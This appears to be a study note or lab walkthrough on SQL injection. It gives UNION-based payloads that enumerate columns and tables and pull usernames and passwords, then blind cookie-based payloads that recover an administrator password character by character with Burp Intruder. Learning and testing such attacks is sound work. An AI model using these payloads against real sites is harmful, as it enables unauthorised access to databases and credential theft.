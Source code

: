`Step 1 ==>`
To determine no of columns:

Find a parameter, 

`payload:`
```
parameter=something'+UNION+SELECT+NULL--
```

If error occur  increase the no of NULLs until error disappears,

Like this:

```
parameter=something'+UNION+SELECT+NULL,NULL--
```

```
Parameter=something'+UNION+SELECT+NULL, NULL, NULL--
```

`Step 2 ==>`

Enumerate the data types of the columns

Imagine here we found there are 4 columns,

```
Parameter=something'+UNION+SELECT+'abc', NULL,NULL,NULL--
```

This will return error if the column 1 is not a  string, Similarly do for the rest of the following for enumerating data types 

```
Parameter=something'+UNION+SELECT+NULL,'a',NULL,NULL-- 

```


```
Parameter=something'+UNION+SELECT+NULL,NULL,'a',NULL--
```

```
Parameter=something'+UNION+SELECT+NULL,NULL,NULL,'a'--
```

If error messages returns information we get lucky

Example,
`Conversion failed when converting the varchar value 'a' to data type int`

`Step 3 ==>`

Find the table names

`Step 4 ==>`

Create payload using these table name and retrieve results:

example,

To get username and password from a table named `users`, which contains columns as `password`, `username`

```
Parameter=something'+UNION+SELECT+username,+password+FROM+users--
```

`Suppose:`

This sort of commands can be used to return  results together,

Here the password and username string, 

Here the `Null` column is not string  type  as we tested using methods from last steps.

```
Parameter=something'UNION+SELECT+NULL,username || '~' || password+FROM+users--
```

`Step 5 ==>`

This step is finding the database version as it help to use database  specific functions and syntax,

Follow first step to enumerate  column numbers, and data type, 

comment the end of the payload,

Use `--` or `#` for doing this.

Here imagine there are three columns,

```
Parameter=something'+UNION+SELECT+@@version,NULL#
```

`Step 6 ==>`

Using information_schema to retrieve details of database,

First follow older steps to enumerate column no and data type,

Now use information_schema.tables for retrieving table list.

`Payload:`
```
Parameter=something'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

We will get table names 

Use these to retrieve column details,

```
Parameter=something'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='{retrieved table name}'--
```

Now combine table name and column names to retrieve details of database,

```
Parameter=something'+UNION+SELECT+{retrieved column name},{retrieved column name}+FROM+{retrieved table name}--
```


###### BLIND SQL

Here, the difference is that there won't be any details retrieved corresponding to the queries.

But we can observe some changes when the query is true and the query is false.

`Step 1 ==>`

Use payloads that will work and doesn't intentionally to observe changes in the web page in each case.

`Scenario:`

The web app matches cookie value with expected value on server side,  using SQL 

```
Cookie: TrackingId= {tracking id}
```

Using a true sql query ie,

`Payload:`
```
Cookie: TrackingId= {tracking id}' AND '1'='1
```

As 1=1 is true, the query will be parsed to true,

Here in my case i noticed a welcome back message, 
Let's try false condition now,

`Payload:`
```
Cookie: TrackingId= {tracking id}' AND '1'='2
```

As this query is false, the result will be false,

We can now see that the welcome Back message has disappeared.

`Step 2 ==>`

Now  we can try testing for to confirm that a table named users exists (example),

`Payload:`
```
Cookie: TrackingId= {tracking id}' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returns the welcome back message so we can make sure that the table users exists.

`Step 3 ==>`

Now use this payload to enumerate column names,

`Payload:`
```
Cookie: TrackingId= {tracking id}' AND (SELECT 'a' FROM users WHERE username ='administrator')='a
```


Verify that the condition is true, confirming that there is a user called administrator

`Step 4 ==>`

The next step is to determine how many characters are in the next column name as we completely have no clue of it.

To do this, change the value to:

`Payload:`
```
Cookie: TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

```

We can observe for the welcome back message for to determine wether the length of the column value matches.

`Step 4 ==>`

Now enumerate  the column value,

`Payload:`
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='something')='a
```

This payload will take 1 value from the password and test it against the value after the equals,

Here it will test against 'a' 

Use intruder to find the right alphabet or number.

Go to the Payloads tab, check that "Simple list" is selected, and under **Payload settings** add the payloads in the range a - z and 0 - 9. 

You can select these easily using the "Add from list" drop-down.

- To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the **Settings** tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

- Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.


- Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

- Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:


```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

- Launch the modified attack, review the results, and note the character at the second offset.

- Continue this process testing offset 3, 4, and so on, until you have the whole password.




